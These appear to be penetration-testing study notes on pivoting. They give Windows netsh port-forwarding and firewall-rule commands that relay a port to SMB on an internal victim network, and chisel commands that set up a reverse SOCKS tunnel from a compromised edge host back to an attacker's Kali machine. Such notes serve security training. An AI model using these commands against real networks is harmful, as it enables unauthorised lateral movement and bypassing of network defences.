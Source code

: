 #Pivoting

## Windows

### Kali PORT -> WIN -> Victim NW PORT

* Check IP Helper Service is running and IPV6 must be enabled for the interface

```cmd
C:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
## update firewall settings
C:\Windows\system32> netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
```

Check
```cmd
netstat -anp TCP | find "4455" 
```
Nice summary of the oscp slides
https://sushant747.gitbooks.io/total-oscp-guide/content/port_forwarding_and_tunneling.html


# Chisel
Get same version binaries for both hosts
https://github.com/jpillora/chisel/releases

### Tutos
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html
https://medium.com/@vegardw/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29

On attacker host (Kali)
```bash
./chisel server -p 8000 --reverse
```

on the edge host
```bash
./chisel client {edge_host_ip}:8000 R:socks
```

